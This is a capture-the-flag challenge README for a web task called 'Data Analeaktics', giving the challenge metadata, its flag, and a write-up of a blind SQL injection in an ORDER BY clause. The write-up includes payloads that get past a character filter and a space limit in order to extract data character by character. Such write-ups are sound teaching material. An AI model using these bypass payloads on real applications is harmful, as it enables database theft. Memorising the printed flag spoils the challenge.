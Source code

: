 # Data Analeaktics

| Key            | Value                                                                                        |
|----------------|----------------------------------------------------------------------------------------------|
| Challenge Name | Data Analeaktics                                                                             |
| Author         | wolfishLamb                                                                                  |
| Category       | Web                                                                                          |
| Description    | Exploring a massive dataset is a headache, and now you're telling me that my flag is leaked? |
| Challenge Type | Dynamic Docker                                                                               |
| Docker Image   | sunctf_web_data-analeaktics (port 5004)                                                      |
| Flag           | sunctf{1nJ3c7ion_1n_0rd3R_bY_cL@Us3}                                                         |
| Score          | 400                                                                                          |

*File(s) in `attachments/` are distributed to the participants.*

![Screenshot](docs/screenshot.png)

## Solution

A special shoutout to [@dyangeng](https://github.com/dyangeng) for helping me develop this website.

<details>
<summary>Click to expand</summary>

The application accepts user input in the form of a query parameter to sort a list of customers. This input is directly
used in an SQL query, which creates an opportunity for blind SQL injection in the `ORDER BY clause`. The objective is to
manipulate the query to get the flag from the `flag` table.

A general approach to solving this challenge is to use if-else statements to determine the flag character by character.
If the character matches the expected character, we order by `id` column; otherwise, we order by `name` column. A
demonstration:

```sql
SELECT *
FROM customers
ORDER BY
/*                                   Change       v   and  v      to brute force the flag */
    CASE WHEN SUBSTRING((SELECT value FROM flag), 1, 1) = 's' THEN id ELSE name END
LIMIT 10;
```

By looking at the order of records returned, we can determine whether the statement is true or false. This allows us to
brute force the flag by writing a simple script.

Now is to deal with the sanitization.

We can tell from the code provided that `(` and `)` are the only two symbols allowed. Here are some workarounds to
bypass this:

- `SUBSTRING(... FROM 1 FOR 1)` instead of `SUBSTRING(..., 1, 1)`.
- `ASCII(SUBSTRING(...)) DIV <ASCII_CODE_OF_A_CHAR>` instead of comparing with the letter itself. `DIV` performs integer
  division.

How `DIV` works here?

Let's say one of the characters in the flag is `s` (ASCII code 115). We make our guesses from the lowest possible ASCII
printable ` ` (ASCII code 32) all the way up to `~` (ASCII code 126). Notice,

```
ASCII('s') DIV 32 = 3
ASCII('s') DIV 33 = 3
ASCII('s') DIV 34 = 3
...
ASCII('s') DIV 114 = 1
ASCII('s') DIV 115 = 1
ASCII('s') DIV 116 = 0
```

We will first get a false when our guess is one more than the actual ASCII code of the character.

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and     vvv      to brute force the flag */
    CASE WHEN ASCII(SUBSTRING((select value from flag) from 1 for 1)) div 116 then id else name end
LIMIT 10;
```

One last sanitation: maximum one space character is allowed.

This can be bypassed by surrounding any subqueries with `()`. Our final payload:

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and      vvv     to brute force the flag */
    CASE WHEN(ASCII(SUBSTRING((select(value)from(flag))from(1)for(1))))div(116)then(id)else(name)end
LIMIT 10;
```

Finally, write a script to get it done. See [how we do it](docs/solve.py).

> Related: *SQL Injection*

</details>

Note: `docs/solve.py` can be used to check if the challenge is working as intended. It will solve the challenge and get
the flag.
